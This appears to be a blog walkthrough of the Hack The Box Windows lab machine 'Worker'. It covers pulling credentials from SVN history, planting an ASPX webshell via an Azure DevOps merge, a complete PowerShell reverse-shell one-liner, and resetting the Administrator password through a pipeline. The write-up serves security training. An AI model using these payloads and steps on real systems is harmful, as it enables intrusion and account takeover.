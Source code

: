 ```yaml
---
layout: post
title: Hackthebox - Worker
date: 2021-01-27 19:00:00 +0000
category: [Hackthebox, Windows]
tags: [htb,windows,medium]
---
```


---
Worker is a medium level room in Hackthebox. I learnt some new things like ```SVN```, ```Azure Devops``` and a lot more while doing this box. I hope you'll learn something from this post too. The objective is to get the user and root flag.
<br>
![cover_image](/assets/img/hackthebox/worker/1.png)

**Author** | ekenas
**Operating System** | Windows
**Difficulty** | Medium


Connect to ```Hackthebox``` and let's go.

## <ins>Enumeration</ins>
---
Let's start with the usual nmap scan.
<br>
![nmap_scan](/assets/img/hackthebox/worker/nmap_scan.png)
<br>
I visited the ```http service``` runnning on the port ```80``` but I found nothing interesting. I tried bruteforcing hidden directories using ```gobuster``` and wasted my time unneccessarily. But, after running ```gobuster``` with the ```vhost``` subcommand in order to find ```virtual hosts```, it returned more than one vhost. I couldn't find which was the original one, so I started enumerating the next service.

I had no idea what ```SVN``` was, so I first checked the ```man pages```.
<br>
![svn_man_pages](/assets/img/hackthebox/worker/8.png)
<br>
Basically, ```SVN``` is a version control system like ```Git```. I got familiar with ```SVN``` from these ```cheat sheets```.
<br>

**Sources:**

 https://www.perforce.com/blog/vcs/svn-commands-cheat-sheet

 https://cheatography.com/davechild/cheat-sheets/subversion/

I added the domain name ```worker.htb``` to the ```/etc/hosts``` file in my local machine.

Firstly, I checked the remote repository information.
<br>
<pre>svn info svn://worker.htb</pre>
<br>
![svn_info](/assets/img/hackthebox/worker/4.png)
<br>
Then I tried to list the contents of the repository.
<br>
<pre>svn list svn://worker.htb</pre>
<br>
![svn_list](/assets/img/hackthebox/worker/5.png)
<br>
I checked everything inside the directory ```dimension.worker.htb``` but I found nothing useful. After checking the ```moved.txt``` in the root directory it said that the latest version can be viewed in ```http://devops.worker.htb```.
<br>
<pre>svn cat svn://worker.htb/moved.txt</pre>
<br>
![svn_cat](/assets/img/hackthebox/worker/7.png)
<br>
I finally found this file with valid credentials.
<br>
<pre>svn diff -r 2</pre>
<br>
![svn_diff](/assets/img/hackthebox/worker/9.png)
<br>
I added ```devops.worker.htb``` to ```/etc/hosts``` and logged in with the credentials.
<br>
![login_page](/assets/img/hackthebox/worker/10.png)
<br>
Navigate to ```Repos``` -> ```Branches```. Create a new branch and choose any one ```work items to link``` from the drop down. Click on create.

Go to the Branch. Upload a ```apsx webshell``` to the branch. The default location of ```aspx webshell``` is ```/usr/share/webshells/aspx/cmdasp.aspx``` in Kali Linux and Parrot OS. Add some items from ```work items to link``` dropdown box and click on ```Commit```.
<br>
![commit_box](/assets/img/hackthebox/worker/11.png)
<br>

Next, create a pull request.
<br>
![pull_request](/assets/img/hackthebox/worker/12.png)
<br>
In the pull requests page click on ```Approve``` and click on ```Complete``` to complete the pull request.
<br>
![approve_request](/assets/img/hackthebox/worker/13.png)
<br>
Check if all the required and optional conditions are met. Otherwise you're gonna have trouble merging the branch.
<br>
![check_merge](/assets/img/hackthebox/worker/14.png)
<br>
The ```Complete pull request``` dialog pops up. Click on ```Complete merge```. I recommend unchecking the ```delete branch after merging``` option since if you face any trouble later you don't need to repeat the process of creating a new branch.
<br>
![complete_request](/assets/img/hackthebox/worker/15.png)
<br>
Wait for a minute or two for the changes to take place.


## <ins>Reverse shell</ins>
---
After that go the the ```http://subdomain.worker.htb/file-name.aspx``` where ```subdomain``` is the name which you've selected during your branching and merging process. The subdomain name can be found just below the address bar of your browser. FYI..The subdomain I've taken is ```alpha```.

If you've done everything correctly, you should be able to see this page.
<br>
![aspx_page](/assets/img/hackthebox/worker/16.png)
<br>
From this page we can get the reverse shell. I grabbed the reverse shell payload for ```powershell``` and edited the ip and port values.
<br>
<pre>powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('your-vpn-ip-addr',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"</pre>
<br>
Open a netcat listener in your local machine and click on ```execute```.
<br>
![reverse_shell](/assets/img/hackthebox/worker/17.png)
<br>


## <ins>User flag</ins>
---
I checked the ```C:\Users``` folder and found the username ```robisl```.
<br>
![users_folder](/assets/img/hackthebox/worker/18.png)
<br>
After a bit of enumerating, I found that the machine has another volume ```W:\```.
<br>
<pre>Get-Volume</pre>
<br>
![another_volume](/assets/img/hackthebox/worker/19.png)
<br>
After changing the volume, I found the ```svnrepos``` folder. I searched throughout the folder and came across this file named ```passwd``` in the ```W:\snvrepos\www\conf``` folder.
<br>
![passwd_file](/assets/img/hackthebox/worker/21.png) 
<br>
I got the contents of the file using the ```type file-name``` command. The password will be in the same line as the name of the user ```robisl```.

I used ```evil-winrm``` to get a shell for the user ```robisl```.
<br>
<pre>./evil-winrm.rb -u robisl -p password-from-passwd-file -i worker.htb</pre>
<br>
![evil_winrm1](/assets/img/hackthebox/worker/22.png)
<br>
I found the ```user flag``` in the ```C:\Users\robisl\Desktop``` folder.
<br>
![user_flag](/assets/img/hackthebox/worker/23.png)
<br>


## <ins>Root flag</ins>
---
This is the part I've been stuck for a long time. After figuring it out, I felt like an idiot for missing such a trivial thing.

Just login to ```Azure Devops``` with the username ```robisl``` and the corresponding password.
<br>
![login_page](/assets/img/hackthebox/worker/24.png)
<br>
I wondered on how to get the root shell since the same process of creating a branch and merging is not gonna work here. After a little help from google, I found that ```Pipelines``` can be used to run commands in ```Azure devops```.

So, I started by creating a new ```Pipeline```.
<br>
![pipeline_azure](/assets/img/hackthebox/worker/25.png)
<br>
Select ```Azure Repos Git``` -> ```Starter pipeline```.

Edit the ```.yaml``` file such that only this content is present. Save the pipeline by clicking on the ```Create a new branch for this commit and start a pull request``` and rename the pipeline.
<br>
![scritp_yaml](/assets/img/hackthebox/worker/26.png)
<br>
After clicking on ```save and run``` the script successfully executes. You can check the results in the ```Run a one line script``` tab.
<br>
![oneline_script](/assets/img/hackthebox/worker/31.png)
<br>
We can exploit this script and get the root shell. First, I tried the powershell one-line reverse shell payload and the script throwed an error. So, I tried to type out the root flag which actually succeded. I didn't want to stop at only getting the root flag, so I googled the possible ways to get the ```Administrator's password```.

I finally arrived at changing the ```Administrator's password```, which can be done using the ```net user``` command in windows.
<br>
![admin_passwd_change](/assets/img/hackthebox/worker/28.png)
<br>
Sorry for the insanely long password. The script throwed an error stating that the ```password policy is not met```. So, I got a little irritated and finally did this password. At last!!! the script executed.
<br>
![admin_passwd_change](/assets/img/hackthebox/worker/29.png)
<br>

I used ```evil-winrm``` to get a powershell.
<br>
![admin_shell](/assets/img/hackthebox/worker/32.png)
<br>
The root flag can be found in the ```C:\Users\Administrator\Desktop``` folder.

Got both the root shell and root flag. Now, I'm satisfied...

Peace out...!!!

That's it folks. Happy hacking!!!





